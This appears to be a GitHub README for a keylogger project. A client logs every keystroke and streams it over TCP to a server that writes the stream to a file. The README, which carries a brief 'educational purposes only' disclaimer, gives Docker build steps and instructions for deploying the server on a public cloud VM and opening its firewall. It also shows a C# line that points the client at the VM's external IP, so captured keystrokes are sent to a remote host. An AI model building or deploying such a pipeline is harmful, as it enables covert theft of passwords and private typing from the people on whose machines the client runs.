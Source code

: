 > [!WARNING]
> For educational purposes only!

---

# Key Logger

This project includes a key logger client which logs all key strokes and a TCP server which accepts the incoming key stroke stream and writes it to a file.

---

# Setup

Here’s how to run the TCP server **locally** or inside a **Docker container** and deploy it to a cloud VM.

---

## Build and Test the Docker Image Locally

1. **Build the Server Project**:
   - Open a terminal in the server project directory and build the project:
     ```bash
     dotnet build
     ```

2. **Build the Docker Image**:
   - Create a Docker image:
     ```bash
     docker build -t keylogger-server .
     ```

3. **Run the Docker Container**:
   - Run the container and map the port `5000` from the container to the local machine:
     ```bash
     docker run -p 5000:5000 keylogger-server
     ```

4. **Test Locally**:
   - The server should now be running at `127.0.0.1:5000`.
   - Run the **keylogger client** and confirm it can connect to the server.

---

## Deploy to a Cloud VM

To deploy the server to a cloud-hosted VM:

1. **Provision a VM**:
   - Create a virtual machine using a cloud provider (AWS EC2, Azure VM, GCP Compute Engine).
   - Choose a VM image with **Docker installed** (e.g., Ubuntu with Docker pre-installed).

2. **Transfer the Docker Image**:
   - Log in to Docker Hub:
     ```bash
     docker login
     ```
   - Tag your image:
     ```bash
     docker tag keylogger-server <your-dockerhub-username>/keylogger-server:latest
     ```
   - Push the image:
     ```bash
     docker push <your-dockerhub-username>/keylogger-server:latest
     ```
   - On the VM, pull the image:
     ```bash
     docker pull <your-dockerhub-username>/keylogger-server:latest
     ```

3. **Run the Server Container on the VM**:
   - Start the server container and map port `5000`:
     ```bash
     docker run -p 5000:5000 keylogger-server
     ```

4. **Open the VM’s Firewall**:
   - Allow inbound traffic on **port 5000** in the cloud provider’s firewall settings so the client can connect.

5. **Find the External IP**:
   - Check the external (public) IP address of your VM.

---

## Update the Keylogger Client to Use the External IP

In the **keylogger client** project, replace `127.0.0.1` with the VM's external IP address:

```csharp
using TcpClient client = new TcpClient("123.456.78.90", 5000); // Replace with your VM's external IP
```

---

## Test the Entire Setup

1. Ensure the TCP server container is running on the cloud VM.
2. Run the keylogger client on your **local machine**.
3. Confirm the client connects to the server and sends the key data.
4. Check the server’s output (or the log file) on the VM.

